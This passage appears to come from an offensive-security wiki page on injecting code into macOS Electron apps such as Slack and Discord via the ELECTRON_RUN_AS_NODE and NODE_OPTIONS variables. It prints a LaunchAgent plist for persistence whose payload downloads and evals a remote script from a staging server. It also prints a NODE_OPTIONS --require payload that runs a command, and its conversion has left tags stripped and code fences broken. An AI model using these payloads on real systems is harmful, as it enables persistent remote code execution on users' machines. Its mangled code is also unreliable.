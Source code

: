 ```

### Injection from the App Plist

As [[https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks/|**proposed here**]], you could abuse this env variable in a plist to maintain persistence:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    EnvironmentVariables
    <dict>
           ELECTRON\_RUN\_AS\_NODE
           true
    </dict>
    Label
    com.xpnsec.hideme
    ProgramArguments
    <array>
        /Applications/Slack.app/Contents/MacOS/Slack
        \-e
        const { spawn } \= require("child\_process"); spawn("osascript", \["\-l","JavaScript","\-e","eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://stagingserver/apfell.js')), $.NSUTF8StringEncoding)));"]);
    </array>
    RunAtLoad
    
</dict>
</plist>
```
```
## RCE with `NODE_OPTIONS`

You can store the payload in a different file and execute it:

```bash
# Content of /tmp/payload.js
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator');

# Execute
NODE_OPTIONS="--require /tmp/payload.js" ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
```
```
> [!CAUTION]
> If the fuse **`EnableNodeOptionsEnvironmentVariable`** is **disabled**, the app will **ignore** the env var **NODE_OPTIONS** when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.
>
> If you don't set **`ELECTRON_RUN_AS_NODE`** , you will find the **error**: `Most NODE_OPTIONs are not supported in packaged apps. See documentation for more details.`

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    EnvironmentVariables
    <dict>
           ELECTRON\_RUN\_AS\_NODE
           true
```